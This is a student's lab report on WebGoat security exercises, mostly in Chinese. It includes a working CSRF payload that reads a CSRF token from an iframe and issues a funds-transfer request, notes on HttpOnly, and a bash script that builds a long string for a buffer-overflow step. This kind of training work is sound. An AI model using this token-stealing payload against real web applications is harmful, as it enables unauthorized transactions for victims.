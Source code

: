 ```html
<script>
    function GetToken() {
        var token = document.getElementById('iframe').contentDocument.getElementsByTagName('form')[0][1].value;
        fetch('attack?Screen=803158781&menu=900&transferFunds=5000&CSRFToken=' + token);
    }
</script>


<iframe src='attack?Screen=803158781&menu=900&transferFunds=main' onload='GetToken()' id='iframe' />
```

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/KFHeGb.png)

### Step 8 HttpOnly Test

这一题主要是介绍微软推出的 HttpOnly 参数，主要介绍了这个参数在防止 xss 上的作用。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/HfZjpM.png)

至此 XSS 部分也完成了，截图如下。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/TPwsWn.png)

## Lab 5 **Web Attack**

### **Overview**

Before we start lab1.5, we have to claim that this is an optional lab, which means that you don’t have to do this lab if your time is not allowed. But if you have time and interest to finish this lab and submit a single lab report, you may get 5 points bonus!
So, back to the lab, what we going to do in this lab: Choose two kinds of Web attack in the WebGoat and finish all the related attack items. That’s it!

这里我选择的两种攻击是 Buffer Overflows 攻击和 Insecure Communication 攻击

### Step 1 Buffer Overflows 攻击

1. 首先按照题目指示，自己输入用户名和房间号进入系统

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/ugjvfz.png)

2. 开启 f12 进行抓包，同时我们点击 accept Terms 按钮，可以看到实际发送的是一个 post 请求，负载如下。

![](https://hutao-image-bed.oss-cn-hangzhou.aliyuncs.com/uPic/p74WyQ.png)

想要使缓冲区移除，一个朴素的想法是构造溢出的 room_no，这里使用朴素的 bash 脚本拿到长度为 10000 的 1 字符串。

```bash
#!/bin/bash
for i in {1..10000};do
echo -n 1;
done
```
